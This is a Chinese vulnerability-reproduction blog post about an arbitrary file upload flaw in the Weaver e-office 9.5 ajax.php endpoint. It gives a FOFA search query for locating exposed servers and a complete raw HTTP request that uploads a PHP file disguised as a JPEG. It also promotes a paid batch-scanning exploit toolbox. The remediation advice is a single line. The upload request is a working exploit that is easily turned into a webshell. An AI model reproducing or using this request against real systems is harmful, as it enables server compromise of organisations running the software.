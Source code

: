 #  泛微e-office系统ajax.php接口存在任意文件上传漏洞   
南风漏洞复现文库  南风漏洞复现文库   2024-04-17 23:31  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 泛微e-office系统ajax.php接口简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
泛微e-office系统是标准、易用、快速部署上线的专业协同OA软件,国内协同OA办公领域领导品牌,致力于为企业用户提供专业OA办公系统、移动OA应用等协同OA整体解决方案。  
## 2.漏洞描述  
  
泛微e-office系统是标准、易用、快速部署上线的专业协同OA软件。泛微 E-Office 9.5版本存在代码问题漏洞，泛微e-office系统ajax.php接口存在任意文件上传漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
泛微 E-Office 9.5版本  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZVQNoEKerHnTW1DfA7jkAOzB6BmSEjMqtQRgiaHQxPxrRqOiaSj5ibXhaE82icwNCQJx7txyDdiaqwGvg/640?wx_fmt=jpeg&from=appmsg "null")  
  
泛微e-office系统ajax.php接口存在任意文件上传漏洞  
## 4.fofa查询语句  
  
app="泛微-EOffice"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/E-mobile/App/Ajax/ajax.php?action=mobile_upload_save  
  
漏洞数据包：  
```
POST /E-mobile/App/Ajax/ajax.php?action=mobile_upload_save HTTP/1.1
Content-Type: multipart/form-data; boundary=c2307d1cd1165cfacd8cd7c008f44d1e
Cookie: testBanCookie=test; ecology_JSessionId=abcLQ67J8J80DciAxUz5y; JSESSIONID=abcLQ67J8J80DciAxUz5y; ecology_JSessionid=abcLQ67J8J80DciAxUz5y
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept-Encoding: gzip, deflate
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Host: 127.0.0.1
Content-Length: 334
Expect: 100-continue
Connection: close

--c2307d1cd1165cfacd8cd7c008f44d1e
Content-Disposition: form-data; name="upload_quwan"; filename="HGsrz.php."
Content-Type: image/jpeg

<?php phpinfo();?>
--c2307d1cd1165cfacd8cd7c008f44d1e
Content-Disposition: form-data; name="file"; filename=""
Content-Type: application/octet-stream


--c2307d1cd1165cfacd8cd7c008f44d1e--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZVQNoEKerHnTW1DfA7jkAOib2p2kNNXvoO9vmlsyuBu3A79dbOPtUicRVD4ic4ibibqsORFf2tK1rAA7A/640?wx_fmt=jpeg&from=appmsg "null")  
  
上传成功会返回路径  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZVQNoEKerHnTW1DfA7jkAOC4n3sklvotp9kYj6TkibwHpaQic6x4ZibayEicRHAoNrhAq5QXD1uZxe4Q/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZVQNoEKerHnTW1DfA7jkAOl8iatZwtTRK03GichEH859BpMQQwHKxK9WYlPdAHVTLXpLU0wiapfHe9A/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZVQNoEKerHnTW1DfA7jkAOxCz9YJ6Hx20g9DSCyM2zZ17uK2WuO5T8v6SI88cEGyw0AUXJGkTX6g/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZVQNoEKerHnTW1DfA7jkAO69xDicD33jShDrqEzEWf2Zw44fJBxW6BhrX2V06eEbiafBr2oScMooDg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZVQNoEKerHnTW1DfA7jkAOWETSnEbYjyjFzgpS1ERXSl20rG3A9jgxKkx0Hlsyd1U9lqVnITwmwA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZVQNoEKerHnTW1DfA7jkAOsLVxRNdae2ufX4IAYMBhBxTuiaGKQ0SvYdIECq0Ez1CeXWymdJSSPQA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请关注官网更新补丁: https://www.e-office.cn/  
## 8.往期回顾  
  
[魔方网表mailupdate.jsp接口存在任意文件上传漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486185&idx=1&sn=1e454d13e5415d343d126acc74b85954&chksm=974b87eea03c0ef841b66c87ea913d064f5a4b490c58b1f37794b9464070a744df5c0e551266&scene=21#wechat_redirect)  
  
  
[浙大恩特客户资源管理系统Ri0004_openFileByStream.jsp接口存在任意文件读取漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486163&idx=1&sn=be62990ea16076d51fba74099ada6664&chksm=974b87d4a03c0ec25569a4fe6371b5762a9974bd3ffc75871c8a8641d676354a0b4f3b1d8d83&scene=21#wechat_redirect)  
  
  
  
  
